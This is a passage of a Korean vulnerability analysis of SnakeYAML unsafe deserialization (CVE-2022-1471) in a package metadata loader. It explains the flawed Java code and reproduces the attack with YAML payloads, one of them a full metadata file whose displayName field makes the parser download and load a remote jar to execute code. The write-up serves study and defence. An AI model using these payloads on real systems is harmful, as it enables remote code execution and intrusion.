 먼저 YAML 파서에 대한 옵션을 설정합니다. `Representer`는 YAML 파일에 특정 속성이 누락되어 있더라도 에러를 발생시키지 않고 객체에 값을 설정하지 않은 채로 넘어가도록 합니다. 그리고 SnakeYAML 생성자를 통해 YAML 파일의 내용을 `PackageMetadata` 클래스에 직접 매핑하여 `Yaml` 객체를 생성합니다.

<br>

```java
String fileContents = null;
try {
	fileContents = FileUtils.readFileToString(file);
}
catch (IOException e) {
	throw new SkipperException("Error reading yaml file", e);
}
```

메서드의 인자로 받은 `File` 객체로부터 전체 파일 내용을 읽어 문자열로 변환합니다. 

<br>

```java
PackageMetadata pkgMetadata = (PackageMetadata) yaml.load(fileContents);
return pkgMetadata;
```

마지막으로 `yaml.load` 메서드를 사용하여 YAML 파일의 내용을 분석하고, 해당 객체를 `PackageMetadata` 객체로 변환하여 반환합니다. 취약점은 결과적으로 이 과정에서 발생합니다.

`yaml.load` 메서드는 메타데이터 내의 구문을 역직렬화 하는데, YAML 파서를 설정할 때 `PackageMetadata` 클래스에 직접 매핑하도록 구성된 생성자를 사용합니다. YAML 파일 내용에 `!!javax.script.ScriptEngineManager`와 같은 특수한 구문이 포함되어 있는 경우, YAML 파서가 Java 클래스 인스턴스를 생성하려고 시도하기 때문에, 임의의 코드가 실행될 수 있는 위험성이 존재합니다. 따라서 입력에 대한 적절한 처리가 이루어지지 않으면 문제가 발생할 수 있습니다.

## 2.2 취약점 재현

### 2.2.1 SnakeYaml 역직렬화 취약점

CVE-2022-1471: Unsafe deserialization vulnerability in SnakeYaml

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://localhost:8080/"]]]]
```

과거 SnakeYaml에 존재했던 역직렬화 취약점을 통해 원격 코드 실행이 가능합니다. 위에서 예시로 들었던 것처럼, `ScriptEngineManager`로 Java의 특정 스크립트 엔진을 실행할 수 있고, `URLClassLoader`를 통해 지정된 URL에 접근하여 클래스 파일을 다운로드 및 로드할 수 있습니다. 악의적으로 조작된 클래스 파일이 저장되어 있는 경로에 접근한다면, 임의의 명령을 실행할 수 있습니다.

<br>

```yaml
repositoryId: 1
repositoryName: local
apiVersion: 1.0.0
version: 1.0.0
kind: test
origin: thePoc
displayName: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://192.168.0.2:10500/yaml-payload.jar"]]]]
name: thePoc
```
